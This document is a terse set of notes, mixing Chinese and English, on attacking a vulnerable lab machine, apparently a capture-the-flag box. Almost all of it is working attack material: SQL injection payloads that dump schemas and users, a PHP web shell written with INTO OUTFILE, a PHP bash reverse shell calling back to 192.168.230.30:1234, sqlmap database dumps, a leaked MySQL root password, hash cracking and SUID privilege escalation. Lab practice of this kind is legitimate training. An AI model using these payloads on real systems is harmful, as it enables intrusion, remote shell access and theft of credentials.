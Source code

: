 ```
"union select database(),@@version,user();-- -
" union select table_schema,table_name,3 from information_schema.tables;--+
table_schema 库名，
table_name表名
" union select 1,column_name,3 from information_schema.columns where table_schema="seth" and table_name="users";--+


sql注入 手注 大马 小马 sqlmap
"union select user,pass,3 from users;-- -

"union select "<?php system($_GET['ship']);?>","","" into outfile "/var/www/html/uploads/shell.php";-- - 写小马

curl http://192.168.230.51/uploads/shell.php?ship=cat+/var/www/html/kzMb5nVYJw/420search.php 命令执行
420search.php 是数据库查询文件 可能有mysql配置信息泄露
 'root';
 'sunnyvale';
"union select "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.230.30/1234 0>&1'\");?>","","" into outfile "/var/www/html/uploads/she.php";-- -反弹shell

sqlmap -u "http://192.168.230.51/kzMb5nVYJw/420search.php?usrtosearch=a" --dbms mysql
--dbs
sqlmap -u "http://192.168.230.51/kzMb5nVYJw/420search.php?usrtosearch=a" --dbms mysql
-D seth --tables

sqlmap -u "http://192.168.230.51/kzMb5nVYJw/420search.php?usrtosearch=a" --dbms mysql
-D seth -T users --columns

sqlmap -u "http://192.168.230.51/kzMb5nVYJw/420search.php?usrtosearch=a" --dbms mysql
-D seth -T users --dump

sqlmap -u "http://192.168.230.51/kzMb5nVYJw/420search.php?usrtosearch=a" --batch --dump

密码解密
echo -n YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | base64 -d  
c6d6bd7ebf806f43c76acc3681703b81base64: 输入无效
hash-identifier c6d6bd7ebf806f43c76acc3681703b81
remses:omega


find / -perm -u=s -type f 2>/dev/null
find / -group ramses -type f 2>/dev/null | grep -v

cat /home/ramses/.bash_history
发现backup
cd /var/www/backup
391947 -rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch suid 提权
procwatch 有s权限 把想执行的 文件写入 sh ps中 把程序带出来
```
